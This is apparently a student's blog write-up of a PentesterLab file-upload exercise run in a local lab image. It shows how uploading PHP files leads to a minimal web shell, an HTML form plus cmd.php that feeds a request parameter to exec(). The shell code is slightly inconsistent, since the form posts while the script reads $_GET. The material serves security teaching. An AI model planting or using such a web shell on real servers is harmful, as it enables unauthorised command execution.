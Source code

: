 # Baby's first PHP shell
I previously had been auditing a course here at Portland State for web application security -- the faculty provides all the course material for free online, so anyone can take a look at it. The aim of the course is to get students familiar with basic security principles -- things to watch out for when developing hosted applications and how web applications behave in comparison to desktop or server-based programs. A server-side application may have a vulnerability in terms of passing un-validated data for execution, but that has a different threat model in comparison to a public website. Either way, the point is to instill best practices and have this cascade over to other development projects.  

For our testing sandbox, we relied on pre-configured images from PentesterLab (link below for the curious)  

https://pentesterlab.com/exercises/web_for_pentester/attachments  

Pentester Lab is a great resource that provides guides on how to execute various exploits -- SQL injections, XSS attacks, and (what we're talking about today) PHP shells, to name a few.  

I have some experience with web site exploitation but have never really executed a PHP shell attack -- I really had only heard the words "PHP Shell" and knew nothing past that point. I set up the ISO in Virtual Box locally and fired it up to get started.  

Clicking on the File Upload 1 exercise, if we successfully upload a file we receive this response:  
 
![Upload](/_thumbnails/2020-03-14/1UploadProcess.png)  

Clicking on the link in the response takes us directly to the image as well as shows where that image is on the server. From this URL, we can tell exactly where the file is on the server as well.  

![Raccoon](/_thumbnails/2020-03-14/2UploadResult.png)  

Most websites nowadays screen for the filetype that's being uploaded to prevent remote code execution as a precaution. Instead of a jpeg, I'm going to upload a PHP file, which, if executed, will show the version of PHP running on the server. You can create this file by typing the following into a file and saving it off as a .php file -- the name does not matter.  

`<?php phpinfo();?>`

That's all! The ?php portion initializes PHP by saying, "I am going to run a PHP function." The phpinfo(); is the actual function call which shows PHP's configuration on this server.  

![PHP Info](/_thumbnails/2020-03-14/3phpinfo.png)  

Success! So what other commands can we send to this server through the file upload feature? PHP has a couple of functions that we can use to accomplish this if we combine them together.  

The PHP exec command will accept a system command as an argument and can store the result as a variable. The echo command works the same as on the command line -- it'll show whatever is passed to it to the screen. You can read more about both these commands here in the PHP manual:  

https://www.php.net/manual/en/function.exec.php
https://www.php.net/manual/en/function.echo.php  

So what if we modify that phpinfo file to list what directory we are in by executing the pwd linux command?  

    <?php echo exec("pwd")?>

![PWD](/_thumbnails/2020-03-14/4pwd.png)  

I am a bit lazy, though, and don't want to have to upload a file every single time that I want to execute a command, so let's make an html form that passes a command to be executed by the php. I'll split this out into two files -- page.html will have all form materials and cmd.php will execute the command.  

## page.html
    <html>
    <body>
    <form method="POST" action="cmd.php">
        <input type="text" id="command" name="command" >
            <input type="submit" name="submit">
    </form>
    </body>
    </html>

## cmd.php
 
    <html>
    <body>
    <?php
    $var = $_GET['command'];
    echo exec($var);
    ?>
    </body>
    </html>

Now, when I type a command into here and submit...
![Execute](/_thumbnails/2020-03-14/5query.png)

I get a new page with the results!
![Result](/_thumbnails/2020-03-14/6catResult.png)
